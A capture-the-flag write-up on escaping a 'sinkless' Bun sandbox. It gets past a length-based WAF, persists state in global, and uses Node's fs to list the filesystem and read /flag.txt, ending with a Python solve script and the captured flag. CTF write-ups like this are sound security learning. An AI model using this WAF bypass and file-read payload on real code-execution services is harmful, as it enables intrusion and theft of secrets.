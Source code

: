```yaml
---
created: 2024-07-27T20:24
updated: 2024-07-28T04:17
tags:
  - bun
solves: 11
points: 400
---
```


> I’ve created a super secure sinkless buntime, is it really secure?

## Analysis

### Bypass WAF

I tried using `Bun.file` etc to spawn shells but always encounter this weird error.

`WAF: Output Not allowed` or `WAF: Input Not allowed`.

I am not sure what caused them as they block innocent stuff but let others pass.

```js
/*eval*/
throw new Error(JSON.stringify(Bun.env))
// this fails

/*eval*/
// this runs

throw new Error(JSON.stringify(Bun.env))
// this runs

eval("1+1")
// this also runs
```

Eventually I realized that it worked on length, if input or output is longer than a set amount it will fail.

For input, I found it via comments.

```js
///////////////////////////////////////////////////    <- will fail
//////////////////////////////////////////////////     <- will work
```

For output, we can use `throw new Error(str)` to bypass the output restriction.

### Persistence

When trying to prototype pollute the server, I realized that my prototype pollutions are preserved.

This means that I am running code in the same context, that's good as I can store info in `global`. And don't have to somehow compress everything in one payload.
### Sync / Async

For some reason, await just wouldn't work at all.
So I decided to ditch Bun's functions and use node.js defaults. The `fs` module.

## Solve Script

IDK if the async import will cause the next lines to break, but since their effects persist, you can just run the script twice.

```python
import requests


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = """
///////////////////////////////////////////////////
import("fs").then(fs=>global.fs=fs)
throw new Error(global.fs.readdirSync("/"))
global.flag=global.fs.readFileSync("/flag.txt")
throw new Error(global.flag)
""".strip()

print(payload)
print()
for l in payload.splitlines():
    r = requests.post("https://8dd1742bbfecae1ec5685380.deadsec.quest/run", json={"code": l})
    print(r.text)

"""
bun 1.1.20 (later than latest version but not related to the challenge)
"""
```

```flag
DEAD{BunT1m3_Fun_T1m3_Y0u_C4n_4lw4y$_Run_4$ync_1n$1d3_$ync}
```
